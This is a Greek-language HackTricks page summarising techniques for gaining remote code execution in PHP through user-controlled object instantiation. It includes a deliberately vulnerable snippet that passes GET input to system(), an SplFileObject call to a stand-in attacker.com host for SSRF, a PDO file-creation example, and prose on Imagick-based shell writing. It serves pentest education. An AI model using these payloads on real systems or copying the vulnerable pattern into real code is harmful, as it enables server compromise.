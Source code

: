 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

This is basically a summary of [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Εισαγωγή

Η δημιουργία νέων αυθαίρετων αντικειμένων, όπως το `new $_GET["a"]($_GET["a"])`, μπορεί να οδηγήσει σε Remote Code Execution (RCE), όπως αναφέρεται σε μια [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Αυτό το έγγραφο επισημαίνει διάφορες στρατηγικές για την επίτευξη RCE.

## RCE μέσω Προσαρμοσμένων Κλάσεων ή Αυτοφόρτωσης

Η σύνταξη `new $a($b)` χρησιμοποιείται για την αρχικοποίηση ενός αντικειμένου όπου **`$a`** αντιπροσωπεύει το όνομα της κλάσης και **`$b`** είναι το πρώτο επιχείρημα που περνάει στον κατασκευαστή. Αυτές οι μεταβλητές μπορούν να προέρχονται από εισόδους χρηστών όπως GET/POST, όπου μπορεί να είναι συμβολοσειρές ή πίνακες, ή από JSON, όπου μπορεί να εμφανίζονται ως άλλοι τύποι.

Σκεφτείτε το παρακάτω απόσπασμα κώδικα:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Σε αυτή την περίπτωση, η ρύθμιση του `$a` σε `App` ή `App2` και του `$b` σε μια εντολή συστήματος (π.χ., `uname -a`) έχει ως αποτέλεσμα την εκτέλεση αυτής της εντολής.

**Οι συναρτήσεις αυτόματης φόρτωσης** μπορούν να εκμεταλλευτούν αν δεν είναι άμεσα προσβάσιμες τέτοιες κλάσεις. Αυτές οι συναρτήσεις φορτώνουν αυτόματα κλάσεις από αρχεία όταν χρειάζεται και ορίζονται χρησιμοποιώντας `spl_autoload_register` ή `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Η συμπεριφορά της αυτόματης φόρτωσης διαφέρει ανάλογα με τις εκδόσεις PHP, προσφέροντας διαφορετικές δυνατότητες RCE.

## RCE μέσω Ενσωματωμένων Κλάσεων

Λείποντας προσαρμοσμένες κλάσεις ή αυτόματους φορτωτές, οι **ενσωματωμένες κλάσεις PHP** μπορεί να είναι επαρκείς για RCE. Ο αριθμός αυτών των κλάσεων κυμαίνεται μεταξύ 100 και 200, ανάλογα με την έκδοση PHP και τις επεκτάσεις. Μπορούν να καταγραφούν χρησιμοποιώντας `get_declared_classes()`.

Οι κατασκευαστές που ενδιαφέρουν μπορούν να εντοπιστούν μέσω του API αντανάκλασης, όπως φαίνεται στο παρακάτω παράδειγμα και στον σύνδεσμο [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**Η RCE μέσω συγκεκριμένων μεθόδων περιλαμβάνει:**

### **SSRF + Phar Deserialization**

Η κλάση `SplFileObject` επιτρέπει SSRF μέσω του κατασκευαστή της, επιτρέποντας συνδέσεις σε οποιοδήποτε URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF μπορεί να οδηγήσει σε επιθέσεις αποσυμπίεσης σε εκδόσεις του PHP πριν από την 8.0 χρησιμοποιώντας το πρωτόκολλο Phar.

### **Εκμετάλλευση PDOs**

Ο κατασκευαστής της κλάσης PDO επιτρέπει συνδέσεις σε βάσεις δεδομένων μέσω DSN συμβολοσειρών, ενδεχομένως επιτρέποντας τη δημιουργία αρχείων ή άλλες αλληλεπιδράσεις:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Οι εκδόσεις του PHP μέχρι 5.3.22 και 5.4.12 ήταν ευάλωτες σε επιθέσεις XXE μέσω των κατασκευαστών `SoapClient` και `SimpleXMLElement`, ανάλογα με την έκδοση του libxml2.

## RCE μέσω της Επέκτασης Imagick

Στην ανάλυση των **εξαρτήσεων ενός έργου**, ανακαλύφθηκε ότι η **Imagick** θα μπορούσε να αξιοποιηθεί για **εκτέλεση εντολών** δημιουργώντας νέες αντικείμενα. Αυτό προσφέρει μια ευκαιρία για εκμετάλλευση ευπαθειών.

### VID parser

Η δυνατότητα του VID parser να γράφει περιεχόμενο σε οποιαδήποτε καθορισμένη διαδρομή στο σύστημα αρχείων εντοπίστηκε. Αυτό θα μπορούσε να οδηγήσει στην τοποθέτηση ενός PHP shell σε έναν διαδικτυακά προσβάσιμο φάκελο, επιτυγχάνοντας Remote Code Execution (RCE).

#### VID Parser + Αποστολή Αρχείων

Σημειώνεται ότι το PHP αποθηκεύει προσωρινά τα ανεβασμένα αρχεία στο `/tmp/phpXXXXXX`. Ο VID parser στην Imagick, χρησιμοποιώντας το πρωτόκολλο **msl**, μπορεί να χειριστεί χαρακτήρες μπαλαντέρ σε διαδρομές αρχείων, διευκολύνοντας τη μεταφορά του προσωρινού αρχείου σε μια επιλεγμένη τοποθεσία. Αυτή η μέθοδος προσφέρει μια επιπλέον προσέγγιση για την επίτευξη αυθαίρετης εγγραφής αρχείων στο σύστημα αρχείων.

### PHP Crash + Brute Force

Μια μέθοδος που περιγράφεται στο [**αρχικό κείμενο**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) περιλαμβάνει την αποστολή αρχείων που προκαλούν μια κατάρρευση του διακομιστή πριν από τη διαγραφή. Με την εκτέλεση brute-force στο όνομα του προσωρινού αρχείου, καθίσταται δυνατή η εκτέλεση αυθαίρετου PHP κώδικα από την Imagick. Ωστόσο, αυτή η τεχνική βρέθηκε ότι ήταν αποτελεσματική μόνο σε μια παλιά έκδοση του ImageMagick.

## Αναφορές

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
